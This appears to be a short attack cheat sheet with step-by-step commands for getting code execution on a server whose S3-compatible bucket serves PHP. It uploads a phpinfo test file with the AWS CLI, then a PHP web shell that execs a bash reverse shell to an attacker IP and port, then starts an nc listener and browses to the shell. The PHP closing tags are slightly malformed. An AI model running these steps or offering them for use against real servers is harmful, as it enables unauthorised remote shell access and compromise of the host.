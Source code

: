 ### Requirements: The server runs php.

### Steps:

#### 1) echo '<?php phpinfo();?<' > test.php 

#### 2) aws --endpoint-url=http://s3.DOMAIN.com s3 cp test.php s3://BUCKET_NAME (These 2 commands will verify if the server actually runs php)

### If yes then:

#### 3) echo "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/OUR_IP/PORT 0>&1 \"');?< > shell.php

#### 4) aws --endpoint-url=http://s3.DOMAIN.com s3 cp shell.php s3://BUCKET_NAME (Create a php reverse shell, then upload it to the bucket)

#### 5) Setup listener nc -lvnp PORT

#### 6) Browse to http://s3.DOMAIN.com/shell.php
